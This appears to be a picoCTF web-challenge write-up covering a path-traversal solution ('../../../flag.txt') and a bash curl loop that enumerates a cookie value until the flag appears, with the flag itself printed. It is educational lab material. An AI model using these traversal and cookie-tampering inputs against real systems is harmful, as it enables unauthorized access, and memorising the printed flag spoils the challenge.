


# SOAP
TBD


# Forbidden Paths
We'll we've got a website with a field to enter files.


Let's try the most obvious solution and enter `/flag.txt`


Let's try giving a relative path which goes all the way back like `../../../../../../../../../../../flag.txt`

(That quite surprisingly worked, and we've got the flag... That was pleasantly easy!)


# cookies
The challenge name strongly hints at something related to cookies.
Apparently there's only one cookie set with the key `name` with value `-1`


We, change the value of the `name` cookie to some other value (say `0`), and we observe a change when refreshed (the form has the state of one which has already been submitted)


We keep trying values from `0` to however many until we get any new interesting value, we write a small bash script which uses `curl` to automate this process for us.
```bash
achu@air ~ % i=0; while true; do curl -sS -L -b "name=$i" http://mercury.picoctf.net:6418/ | grep 'font-size:30px'; i=$((i + 1)); done
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love oatmeal raisin cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love gingersnap cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love shortbread cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love peanut butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love whoopie pie cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love sugar cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love molasses cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love kiss cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love biscotti cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love spritz cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love snowball cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love drop cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love thumbprint cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love pinwheel cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love wafer cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>
            <p style="text-align:center; font-size:30px;"><b>I love macaroon cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love fortune cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love crinkle cookies!</b></p>
^C                                                                                                                    achu@air ~ % 
```
`-sS` to suppress progress bar (`s`) but to propagate errors if they occur (`S`).
`-L` to follow HTTP redirects.
`-b` for setting cookie.
We pipe this to `grep` which searches for `font-size:30px` (because that's the only `p` container for that specific text size so we can narrow down to just one container with rudimentary tricks instead of proper HTML parsing).
